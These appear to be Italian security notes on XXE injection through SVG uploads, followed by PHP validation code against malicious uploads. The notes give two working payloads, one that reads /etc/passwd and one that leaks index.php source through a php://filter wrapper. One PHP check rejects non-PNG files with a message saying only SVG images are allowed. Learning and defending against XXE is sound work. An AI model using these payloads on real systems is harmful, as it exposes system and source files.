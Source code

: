 # Introduzione di XXE con il caricamento del file

Sempre con gli `svg` si puo' creare un payload ad hoc, per esempio

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

oppure

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

che ci restituisce il file `index.php` codificato in base64.

# Prevenzione

## Extension Validation

```php

$fileName = basename($_FILES["uploadFile"]["name"]);

// blacklist test
if (preg_match('/^.+\.ph(p|ps|ar|tml)/', $fileName)) {
    echo "Only images are allowed";
    die();
}

// whitelist test
if (!preg_match('/^.*\.(jpg|jpeg|png|gif)$/', $fileName)) {
    echo "Only images are allowed";
    die();
}

```

## Content Validation

```php
$fileName = basename($_FILES["uploadFile"]["name"]);
$contentType = $_FILES['uploadFile']['type'];
$MIMEtype = mime_content_type($_FILES['uploadFile']['tmp_name']);

// whitelist test
if (!preg_match('/^.*\.png$/', $fileName)) {
    echo "Only PNG images are allowed";
    die();
}

// content test
foreach (array($contentType, $MIMEtype) as $type) {
    if (!in_array($type, array('image/png'))) {
        echo "Only SVG images are allowed";
        die();
    }
}

```
